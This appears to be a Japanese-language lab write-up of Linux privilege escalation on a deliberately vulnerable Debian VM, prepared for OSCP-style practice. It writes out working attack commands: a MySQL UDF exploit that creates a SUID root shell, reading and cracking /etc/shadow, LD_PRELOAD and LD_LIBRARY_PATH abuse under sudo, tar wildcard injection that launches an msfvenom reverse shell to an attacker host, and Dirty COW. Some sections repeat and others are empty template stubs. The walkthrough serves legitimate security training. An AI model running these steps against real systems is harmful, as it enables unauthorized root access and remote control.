

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | 記録なし |
| 主な侵入経路 | privilege-escalation |
| 権限昇格経路 | Local misconfiguration or credential reuse to elevate privileges |

## 偵察

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 なぜ有効か  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## 初期足がかり

### Not implemented (or log not saved)


## Nmap


### Not implemented (or log not saved)


### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

## Deploy the Vulnerable Debian VM

```bash
ssh user@$ip -oHostKeyAlgorithms=+ssh-rsa
```

## Service Exploits

exploitコード

https://www.exploit-db.com/exploits/1518

/home/n0z0/tools/linux/raptor_udf2.cを攻撃対象サーバに送る

エクスプロイトコードをコンパイルする

- `raptor_udf2.c`: 悪意のある共有ライブラリ（`.so`ファイル）を生成するためのCコード。
- `fPIC`: 共有ライブラリを作成するための位置独立コード（Position Independent Code）を有効化。
- `shared`: 共有ライブラリをリンクして作成。
- `raptor_udf2.so`: この共有ライブラリが、MySQLにロードされるプラグインとして機能します。

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

**MySQLに接続**

root権限で接続すること

```
mysql -u root
```

悪意のある共有ライブラリをMySQLにロード

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
```

- `oad_file`: ファイルの内容を読み込むMySQLの関数。
    - この例では、`/home/user/tools/mysql-udf/raptor_udf2.so`をロードしています。
- `select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`
    - テーブル`foo`に保存したデータをファイルに書き出し、MySQLのプラグインディレクトリ（`/usr/lib/mysql/plugin/`）に保存。
    - 結果として、`raptor_udf2.so`がMySQLプラグインとしてシステムにインストールされます。

UDFの作成

```
create function do_system returns integer soname 'raptor_udf2.so';
```

- このコマンドは、`do_system`という名前のUDFを作成します。
- `do_system`は、`raptor_udf2.so`に定義されたコードを呼び出します。
- 実際には、このUDFを使って任意のシステムコマンドを実行できます。

UDFを使ったルートシェルの作成

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

- このSQL文は、`do_system`を呼び出して以下のシェルコマンドを実行します:
    - `/bin/bash`を`/tmp/rootbash`にコピー。
    - コピーした`/tmp/rootbash`にSUIDビットを付与（`chmod +xs`）。
- SUIDビットが付与された`/tmp/rootbash`は、実行時にルート権限を持つようになります。

ルート権限の取得

```
/tmp/rootbash -p
```

- このコマンドは、`/tmp/rootbash`を実行します。
- SUIDビットにより、このシェルはルート権限で実行されます（`p`フラグで権限を保持）。
- `bash -p`と一緒

### この手法の危険性とセキュリティ上の問題

1. **MySQLの設定不備**:
    - `root`ユーザーのパスワードが空であること。
    - `LOAD_FILE`関数や`SELECT INTO DUMPFILE`を利用できる権限が許可されていること。
2. **MySQLプラグインディレクトリへの書き込み権限**:
    - MySQLプロセスが`/usr/lib/mysql/plugin`に書き込み可能である場合、この攻撃が成功します。
3. **共有ライブラリの利用**:
    - `raptor_udf2.so`のような悪意のあるコードをMySQLが実行できる環境。

## Weak File Permissions - Readable /etc/shadow

### 1. **`/etc/shadow`ファイルの確認**

```bash
ls -l /etc/shadow
```

- `/etc/shadow`ファイルは、Linuxシステムのパスワードハッシュを格納している重要なファイルです。
- このコマンドは、ファイルの所有権とパーミッションを確認します。
    - 通常、`/etc/shadow`ファイルは`root`ユーザーのみが読み取れるパーミッションが設定されています（`rw-r-----`）。

### 2. **`/etc/shadow`ファイルの内容を表示**

```bash
cat /etc/shadow
```

- `cat`コマンドでファイルの内容を表示します。
- 各行が1人のユーザーを表し、以下のようなフォーマットです：
    
    ```arduino
    username:password_hash:last_changed:min:max:warn:inactive:expire
    ```
    
    - `username`: ユーザー名。
    - `password_hash`: パスワードのハッシュ値。空の場合、パスワードなしでログイン可能。
    - `last_changed`以降のフィールドはパスワードの有効期限に関連する情報です。

### 3. **ルートユーザーのパスワードハッシュを抽出**

```
echo "root_hash_here" > hash.txt
```

- `root`ユーザーの行から、2番目のフィールド（`password_hash`）を抽出します。
- 抽出したハッシュをKali Linux上のファイル`hash.txt`に保存します。

### 4. **John the Ripperでハッシュをクラック**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

- **John the Ripper**:
    - パスワードクラッキングツールで、保存されたパスワードハッシュを解析して平文のパスワードを特定します。
- **`rockyou.txt`**:
    - よく使われるパスワードリスト。`/usr/share/wordlists/`ディレクトリに格納されています。
    - 必要に応じて以下のコマンドで解凍します：
        
        ```bash
        gunzip /usr/share/wordlists/rockyou.txt.gz
        ```
        
- `hash.txt`:
    - クラック対象となるハッシュ値が保存されたファイル。

## Sudo - Environment Variables

### **`LD_PRELOAD`を利用した特権昇格**

1. **共有オブジェクトの作成**:
    
    ```bash
    gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
    ```
    
    - `preload.c`には、特定の関数（例えば`execve`）をフックして、ルートシェルを起動するコードが記述されています。
    - `fPIC`: 位置独立コードを生成。
    - `shared`: 共有ライブラリを作成。
    - `nostartfiles`: スタートアップコードを除外（軽量化のため）。
2. **`sudo`でプログラムを実行**:
    
    ```bash
    sudo LD_PRELOAD=/tmp/preload.so program-name-here
    ```
    
    - `LD_PRELOAD`環境変数を設定して`program-name-here`を`sudo`で実行します。
    - プログラムが実行される前に、`/tmp/preload.so`がロードされ、ルートシェルが起動します。

### 3. **`LD_LIBRARY_PATH`を利用した特権昇格**

1. **Apache2で使用されるライブラリを確認**:
    
    ```bash
    ldd /usr/sbin/apache2
    ```
    
    - `ldd`コマンドは、指定したバイナリが依存する共有ライブラリを表示します。
    - 例として`libcrypt.so.1`が依存ライブラリの1つとして表示されるとします。
2. **悪意のある共有オブジェクトを作成**:
    
    ```bash
    gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
    ```
    
    - `library_path.c`には、ターゲットプログラムで動作するライブラリをフックし、ルートシェルを起動するコードが記述されています。
3. **`LD_LIBRARY_PATH`を設定して`apache2`を実行**:
    
    ```bash
    sudo LD_LIBRARY_PATH=/tmp apache2
    ```
    
    - `LD_LIBRARY_PATH=/tmp`に設定することで、`/tmp/libcrypt.so.1`が優先的にロードされます。
    - `library_path.c`に基づいて動作し、ルートシェルを起動します。

## Cron Jobs - Wildcards

### 背景情報

1. **`tar`の脆弱性**:
    - `tar`には、`-checkpoint`および`-checkpoint-action`というオプションがあり、これらを使用すると、アーカイブの処理中に任意のコマンドを実行できます。
2. **Cronジョブ**:
    - `compress.sh`スクリプトが定期的に`tar`コマンドを実行します。
    - このスクリプトはワイルドカード（）を使用しているため、ファイル名として特定の`tar`オプションが指定されたファイルを悪用できます。
3. **リバースシェル**:
    - 攻撃者はリバースシェルを用意し、ターゲットシステムから攻撃者のシステムに接続させることで、ターゲットを操作します。

### 各ステップの説明

### 1. **`compress.sh`スクリプトの確認**

```bash
cat /usr/local/bin/compress.sh
```

- スクリプトが自動的に`tar`コマンドを（ワイルドカード）で実行していることを確認します。
- ワイルドカードによって、ディレクトリ内のすべてのファイルが展開され、コマンドライン引数として渡されます。

### 2. **リバースシェルの作成**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

- **`msfvenom`**:
    - ペイロード生成ツールで、リバースシェルを含むELFバイナリ（Linux用実行ファイル）を作成します。
    - `LHOST=10.10.10.10`: 攻撃者のKaliマシンのIP address。
    - `LPORT=4444`: 攻撃者のリスニングポート。
    - `f elf`: ELF形式で出力。
    - `o shell.elf`: ファイル名。

### 3. **`shell.elf`の転送と権限変更**

```
scp shell.elf user@target:/home/user/
chmod +x /home/user/shell.elf
```

- `scp`や`wget`を使って、`shell.elf`をターゲットシステムに転送します。
- 転送後に`chmod +x`で実行権限を付与します。

### 4. **悪意のあるファイルを作成**

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

- `-checkpoint=1`: `tar`コマンドに対し、1ファイル処理ごとにチェックポイントを作成する指示を出します。
- `-checkpoint-action=exec=shell.elf`: チェックポイント到達時に、`shell.elf`を実行するアクションを指定します。
- これらはファイル名として作成されますが、`tar`コマンドはファイル名ではなく有効なオプションとして解釈します。

### 5. **リバースシェルの準備**

```bash
nc -nvlp 4444
```

- 攻撃者のKaliマシンでNetcatを起動して待機します。
- ターゲットシステムが接続してくるのを待ちます。

### 6. **Cronジョブの実行**

- Cronジョブが定期的に`tar`コマンドを実行するため、攻撃者の悪意のあるファイル（`-checkpoint`オプション）が含まれます。
- `tar`がこれらのファイルを解釈し、`shell.elf`を実行します。

### 7. **ルートシェルの取得**

- `shell.elf`はリバースシェルペイロードで、ターゲットシステムのルート権限を持つシェルを攻撃者のNetcatに接続します。
- 攻撃者はターゲットシステムを完全に制御できます。

## Kernel Exploits

この手順では、Linuxカーネルの脆弱性である「**Dirty COW**」を利用して、権限昇格（privilege escalation）を達成する方法を説明しています。以下に詳細を解説します。

### **背景情報: Dirty COW**

1. **Dirty COWとは？**
    - Dirty COW（CVE-2016-5195）は、Linuxカーネルに存在する競合状態（race condition）の脆弱性です。
    - カーネルがメモリ内の読み取り専用（read-only）マッピングを扱う際に発生し、不正な書き込み（write escalation）が可能になります。
    - 攻撃者は、通常書き込みできないファイル（例: SUIDバイナリ）を変更し、特権昇格を達成できます。
2. **影響範囲**
    - 脆弱性は多くのLinuxディストリビューションの複数のカーネルバージョンに影響を与えます。
    - 特に、未更新のLinuxカーネルを使用しているシステムが対象となります。

### **手順の詳細**

### 1. **Linux Exploit Suggester 2の実行**

```
bash
Copy the code
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl

```

- **Linux Exploit Suggester 2**:
    - 現在のシステム環境（カーネルバージョンや構成）に基づいて、利用可能なカーネルエクスプロイトを提案するツール。
    - このツールを使用して、Dirty COWが対象システムで適用可能な脆弱性であることを確認します。

### 2. **Dirty COWエクスプロイトコードの確認**

- Dirty COWのエクスプロイトコードは、以下のパスに用意されています:
    
    ```bash
    bash
    コードをコピーする
    /home/user/tools/kernel-exploits/dirtycow/c0w.c
    
    ```
    
- **このコードの目的**:
    - 書き込み不能なSUIDバイナリ（例: `/usr/bin/passwd`）を上書きし、悪意のあるプログラムに置き換えます。
    - 元の`/usr/bin/passwd`は、`/tmp/bak`にバックアップされます。

### 3. **エクスプロイトコードのコンパイル**

```
bash
Copy the code
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w

```

- **コンパイルオプション**:
    - `pthread`: POSIXスレッドを使用するためのオプション。
    - `o c0w`: コンパイル後の出力ファイル名を指定。

### 4. **エクスプロイトの実行**

```
bash
Copy the code
./c0w

```

- エクスプロイトを実行すると、以下の操作が行われます:
    1. `/usr/bin/passwd`がバックアップされ、`/tmp/bak`に保存される。
    2. `/usr/bin/passwd`が悪意のあるバイナリに置き換えられる。
        - このバイナリは、実行時にシェル（`/bin/bash`）を`root`権限で起動するよう設計されています。

### 5. **特権昇格の確認**

```
bash
Copy the code
/usr/bin/passwd

```

- 通常、このコマンドはユーザーのパスワードを変更するためのプログラムです。
- しかし、Dirty COWエクスプロイトにより置き換えられたバイナリは、実行時に`root`権限のシェルを起動します。
- 結果として、攻撃者は`root`権限を取得します。

💡 なぜ有効か  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## 権限昇格

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.


- **John the Ripper**:
    - パスワードクラッキングツールで、保存されたパスワードハッシュを解析して平文のパスワードを特定します。
- **`rockyou.txt`**:
    - よく使われるパスワードリスト。`/usr/share/wordlists/`ディレクトリに格納されています。
    - 必要に応じて以下のコマンドで解凍します：
        
        ```bash
        gunzip /usr/share/wordlists/rockyou.txt.gz
        ```
        
- `hash.txt`:
    - クラック対象となるハッシュ値が保存されたファイル。

## Sudo - Environment Variables

### **`LD_PRELOAD`を利用した特権昇格**

1. **共有オブジェクトの作成**:
    
    ```bash
    gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
    ```
    
    - `preload.c`には、特定の関数（例えば`execve`）をフックして、ルートシェルを起動するコードが記述されています。
    - `fPIC`: 位置独立コードを生成。
    - `shared`: 共有ライブラリを作成。
    - `nostartfiles`: スタートアップコードを除外（軽量化のため）。
2. **`sudo`でプログラムを実行**:
    
    ```bash
    sudo LD_PRELOAD=/tmp/preload.so program-name-here
    ```
    
    - `LD_PRELOAD`環境変数を設定して`program-name-here`を`sudo`で実行します。
    - プログラムが実行される前に、`/tmp/preload.so`がロードされ、ルートシェルが起動します。

---

### 3. **`LD_LIBRARY_PATH`を利用した特権昇格**

1. **Apache2で使用されるライブラリを確認**:
    
    ```bash
    ldd /usr/sbin/apache2
    ```
    
    - `ldd`コマンドは、指定したバイナリが依存する共有ライブラリを表示します。
    - 例として`libcrypt.so.1`が依存ライブラリの1つとして表示されるとします。
2. **悪意のある共有オブジェクトを作成**:
    
    ```bash
    gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
    ```
    
    - `library_path.c`には、ターゲットプログラムで動作するライブラリをフックし、ルートシェルを起動するコードが記述されています。
3. **`LD_LIBRARY_PATH`を設定して`apache2`を実行**:
    
    ```bash
    sudo LD_LIBRARY_PATH=/tmp apache2
    ```
    
    - `LD_LIBRARY_PATH=/tmp`に設定することで、`/tmp/libcrypt.so.1`が優先的にロードされます。
    - `library_path.c`に基づいて動作し、ルートシェルを起動します。

## Cron Jobs - Wildcards

### 背景情報

1. **`tar`の脆弱性**:
    - `tar`には、`-checkpoint`および`-checkpoint-action`というオプションがあり、これらを使用すると、アーカイブの処理中に任意のコマンドを実行できます。
2. **Cronジョブ**:
    - `compress.sh`スクリプトが定期的に`tar`コマンドを実行します。
    - このスクリプトはワイルドカード（）を使用しているため、ファイル名として特定の`tar`オプションが指定されたファイルを悪用できます。
3. **リバースシェル**:
    - 攻撃者はリバースシェルを用意し、ターゲットシステムから攻撃者のシステムに接続させることで、ターゲットを操作します。

---

### 各ステップの説明

### 1. **`compress.sh`スクリプトの確認**

💡 なぜ有効か  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## 認証情報

```text
gunzip /usr/share/wordlists/rockyou.txt.gz
ldd /usr/sbin/apache2
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

## まとめ・学んだこと

### 4.Overview

---



### CVE Notes

- **CVE-2016-5195**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.

## 参考文献

- nmap
- rustscan
- john
- msfvenom
- nc
- sudo
- ssh
- wget
- cat
- CVE-2016-5195
- GTFOBins
